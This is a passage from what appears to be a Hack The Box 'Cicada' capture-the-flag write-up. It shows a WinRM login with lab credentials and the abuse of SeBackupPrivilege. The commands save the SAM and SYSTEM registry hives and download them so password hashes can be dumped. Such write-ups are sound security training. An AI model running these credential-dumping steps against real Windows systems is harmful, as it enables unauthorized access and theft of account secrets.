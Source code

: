 ![WinRM valid credentials](/images/HTB-Cicada/winrm_valid.png)

`emily.oscars:Q!3@Lp#M6b*7t*Vt` are the only valid credentials. 

```
evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

![emily.oscars WinRM login](/images/HTB-Cicada/foothold.png)

The user flag is readable at `C:\Users\emily.oscars.CICADA\Desktop\user.txt`.

We can see that `emily.oscars` has the `SeBackupPrivilege` and with `net user emily.oscars` we learn that she is a member of the `Backup Operators` group.

> While members of the **Backup Operators group** are inherently granted the **SeBackupPrivilege** by default, the reverse is not always true. A user can have the **SeBackupPrivilege** without being a member of the **Backup Operators** group because privileges in Windows can be assigned explicitly to users or groups independently of group membership.

![emily.oscars group membership](/images/HTB-Cicada/backup_operators_group.png)


## Privilege Escalation

Because the current user we control has the `SeBackupPrivilege` and is a member of the `Backup Operators group` we can access the root flag via two different methods.

### Hash Dump method

This [article](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) demonstrates how to abuse `SeBackupPrivilege`.

Within the `emily.oscars` shell execute the following commands

```
mkdir Temp
```

![Temp directory creation](/images/HTB-Cicada/Temp_dir.png)

```
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

![SAM & SYSTEM registries](/images/HTB-Cicada/sam_&_system.png)

```
cd Temp
download sam
download system
```

![Registry files download](/images/HTB-Cicada/dl_files.png)
